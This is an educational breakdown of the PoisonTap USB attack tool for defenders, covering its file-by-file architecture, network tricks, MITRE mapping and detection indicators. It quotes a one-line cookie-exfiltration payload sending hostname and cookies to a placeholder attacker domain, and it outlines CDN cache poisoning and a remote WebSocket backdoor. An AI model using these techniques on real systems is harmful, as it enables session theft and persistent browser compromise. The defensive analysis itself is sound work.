

# PoisonTap Architecture (Reverse-Engineered, Educational)

Based on the public [samyk/poisontap](https://github.com/samyk/poisontap) repository and README. This explains **how the original 2016 design worked** so defenders can recognize artifacts — not how to deploy it.

---

## Attack chain (high level)

---

## File-by-file breakdown

### `pi_startup.sh`

| Function | Mechanism |
|----------|-----------|
| USB gadget | ConfigFS `usb_gadget/poisontap`, ECM function, Linux Foundation VID/PID |
| Network | `usb0` up, default route via USB, `ip_forward=1` |
| DHCP | `isc-dhcp-server` (legacy) |
| DNS | `dnsspoof` on port 53 → redirect to Pi |
| NAT | `iptables` REDIRECT 80 → 1337 |
| Payload | `nodejs pi_poisontap.js` in screen session |

**2026 note:** Modern Pi OS uses `nftables`, `dnsmasq`, and often `NetworkManager` — the original script targets 2016 Raspbian patterns.

### `pi_poisontap.js`

Node.js HTTP server on port **1337**. Core behaviors:

1. **CDN cache poisoning** — If request URL matches a file in `js/`, prepend `target_backdoor.js` and serve with aggressive cache headers.
2. **Cookie siphon** — Log `Host + Cookie` to `poisontap.cookies.log`.
3. **`/PoisonTap` path** — Serve `backdoor.html` (persistent WebSocket client).
4. **Default requests** — Serve `target_injected_xhtmljs.html` (spawns iframe storm).
5. **LED feedback** — Blink Pi ACT LED on successful injection.

### `backend_server.js`

Runs on **attacker-controlled internet server** (not the Pi). WebSocket server on 1337:

- `/exec?` — Push JS eval commands to all connected backdoored browsers
- `/send?` — Push JSON to clients, collect responses
- `/status` — Client count

### `target_backdoor.js`

Tiny prepend script: `new Image().src='http://YOUR.DOMAIN/...?log='+hostname+'|'+cookie`

Prepended to poisoned CDN JS so **future page loads** exfil cookies even after Pi is unplugged.

### `target_injected_xhtmljs.html`

Dual-purpose HTML/JS carrier. Spawns hidden iframes across Alexa top domains hitting `/PoisonTap`. Includes DNS rebinding setup for router access (`*.ip.samy.pl` pattern from original research).

### `backdoor.html`

Cached indefinitely on victim browsers. Opens WebSocket to attacker server; enables remote same-origin requests via poisoned cache.

### `js/` directory

See [JS_CDN_CACHE.md](JS_CDN_CACHE.md) — mirrored CDN libraries, not custom PoisonTap logic.

---

## Network tricks (why it worked in 2016)

| Trick | Effect |
|-------|--------|
| DHCP option: entire IPv4 as local subnet | All destinations route through USB interface |
| LAN-over-Internet priority | Lower-priority iface still wins for "local" prefixes |
| DNS spoofing | Background HTTP requests hit Pi instead of real IPs |
| Long `Cache-Control` | Backdoors survive device removal |
| HTTP (not HTTPS) cookie leak | Cookies without `Secure` flag sent in cleartext |
| iframe + no JS on victim origin | Bypasses HttpOnly for **capture via request**, not DOM |

---

## MITRE mapping

| Technique | ID |
|-----------|-----|
| Hardware additions | T1200 |
| Adversary-in-the-Middle | T1557 |
| Steal web session cookie | T1539 |
| Steal application access token | T1528 |
| Network sniffing | T1040 |
| DNS rebinding (router) | T1557.002 |

---

## Detection indicators (blue team)

| Artifact | Where to look |
|----------|---------------|
| New USB Ethernet adapter while locked | EDR USB device events, macOS `system_profiler SPUSBDataType` |
| Rogue DHCP on `usb0` / RNDIS / ECM | DHCP server logs, unexpected gateway 1.0.0.1 |
| DNS to link-local or 1.0.0.1 | DNS analytics, Pi-hole, Zeek |
| Mass iframe requests to `*/PoisonTap` | Proxy/WAF logs (rare on locked machine — outbound from browser) |
| Long-cache poisoned JS | Browser cache audit (hard post-incident) |
| WebSocket to unknown host | NetFlow, SWG, TLS inspection |
| `poisontap.cookies.log` pattern | Forensic disk (Pi side, if seized) |

Purple validation: add USB-gadget + rogue-DHCP scenarios to `exercise/detection_matrix.csv`.
